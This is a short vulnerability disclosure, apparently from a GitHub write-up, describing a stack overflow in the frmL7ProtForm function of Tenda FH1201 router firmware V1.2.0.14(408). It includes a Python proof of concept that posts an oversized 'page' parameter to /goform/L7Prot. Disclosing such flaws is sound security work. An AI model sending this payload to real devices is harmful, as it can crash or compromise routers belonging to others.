 # Tenda FH1201 frmL7ProtForm
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the frmL7ProtForm function.
### Vulnerability details
In function frmL7ProtForm line 205, it reads in a user-provided parameter `page`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_2`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/19.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/L7Prot"

data = {
    "page": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/20.png)
